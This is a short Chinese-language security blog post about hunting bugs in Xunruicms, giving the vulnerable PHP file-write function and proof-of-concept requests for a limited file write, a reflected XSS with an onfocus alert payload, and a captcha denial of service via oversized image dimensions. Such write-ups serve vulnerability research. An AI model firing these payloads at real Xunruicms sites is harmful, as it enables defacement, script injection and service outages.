 ```yaml
---
title: Xunruicms
date: 2019-12-09T00:07:02+08:00
lastmod: 2019-12-09T00:07:02+08:00
categories: ["网络安全"]
description:
---
```

### 前言
前几天寻思着想挖几个通用的洞 于是在fofa poc列表上找找目标. 锁定目标为`php` `cms` `已有0day`.
![2019-12-09 00-09-38 的屏幕截图.png](https://i.loli.net/2019/12/09/v7qHp1y3ZCaJ6hB.png)
很快就锁定到了这个`迅睿cms`. 发现可以在gitee上下载.

废了好大力气 最后在fofa扫的时候才发现寥寥无几 基本可以忽略. 心态十分爆炸 

### 上传文件
转移了`<>` 危害不大
```
// 漏洞代码
  /**
     * 存储临时表单内容
     */
    public function save_form_data() {
        // fixme 文件写入 但是由于转义了< 所以无法命令
        $rt = \Phpcmf\Service::L('cache')->init('file')->save(
            dr_safe_filename(\Phpcmf\Service::L('input')->get('name')),
            \Phpcmf\Service::L('input')->post('data'),
            7200
        );
        var_dump($rt);
        exit;
    }
```

poc 
```
POST /index.php?c=api&m=save_form_data&s=api&name=test.html 

data: hello world

```

### 反射XSS
需登录 且有权限上传文件

poc `http://127.0.0.1:8080/index.php?c=file&m=input_file_url&s=api&name=1%22%20onfocus=%22alert(%27xss%27);%20autofocus%20%22&fid=1`

### 验证码dos
poc `http://127.0.0.1:8080/index.php?c=api&m=captcha&s=api&width=4000&height=4000`
